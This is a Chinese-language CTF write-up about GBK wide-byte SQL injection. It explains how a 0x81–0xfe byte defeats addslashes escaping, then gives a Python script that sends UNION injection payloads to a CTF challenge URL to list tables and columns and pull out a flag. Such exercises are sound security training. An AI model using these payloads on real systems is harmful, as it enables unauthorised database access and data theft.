 题目的响应直接给出来SQL语句。查了下资料，GBK注入又叫宽字节注入；GBK注入的关键在于两点：

- 后台代码自动对引号转义，比如PHP addslashes给`'` 和 `"` 加上反斜杠`\`；
- 后台和MySQL之间的连接使用GBK编码传输数据。

它的原理是：注入的内容需要包含一个范围在`[0x81, 0xfe]`的字符（这是GBK的第一字节，见[wiki](https://zh.wikipedia.org/wiki/%E6%B1%89%E5%AD%97%E5%86%85%E7%A0%81%E6%89%A9%E5%B1%95%E8%A7%84%E8%8C%83)）和（单/双）引号。因为上述两点的关系，第一字节和反斜杠会被MySQL解析为一个GBK编码的汉字，本应被转义的引号就可以发挥作用了。

这里记录一下第一次手工注入，过程有亿点小激动 :laughing:

```python
# encoding=utf-8
import time
import requests
from urllib.parse import unquote as u, quote as q

# 把count(*)改成database()直接出schema的名字，不过这个名字在这里好像没啥用
# 1. 当前schema有多少张表
count_tables = """' union select 25252, count(*) from information_schema.tables where table_schema=database() -- a"""

url = 'http://chinalover.sinaapp.com/SQL-GBK/index.php?id=%df' + q(count_tables)

print(requests.get(url=url).text)

# 有6张表
# 2. 当前schema有哪些表
for i in range(6):
    get_table_names = f"""' union select 25252, table_name from information_schema.tables where table_schema=database() limit 1 offset {i} -- a"""
    url = 'http://chinalover.sinaapp.com/SQL-GBK/index.php?id=%df' + q(get_table_names)

    print(requests.get(url=url).text)

    time.sleep(1)

# 3. 当前schema一共有多少列
count_columns = """' union select 25252, count(*) from information_schema.columns where table_schema=database() -- a"""

url = 'http://chinalover.sinaapp.com/SQL-GBK/index.php?id=%df' + q(count_columns)

print(requests.get(url=url).text)

# 有12列
# 4. 当前schema有哪些列
for i in range(12):
    get_table_names = f"""' union select 25252, table_name from information_schema.columns where table_schema=database() limit 1 offset {i} -- a"""
    url = 'http://chinalover.sinaapp.com/SQL-GBK/index.php?id=%df' + q(get_table_names)

    print(requests.get(url=url).text)

    time.sleep(1)

# 已经看到有两个列叫做flag了
# 5. 拿到flag
get_flag = """' union select 25252, flag from ctf4 -- a"""

url = 'http://chinalover.sinaapp.com/SQL-GBK/index.php?id=%81' + q(get_flag)

print(requests.get(url=url).text)
```
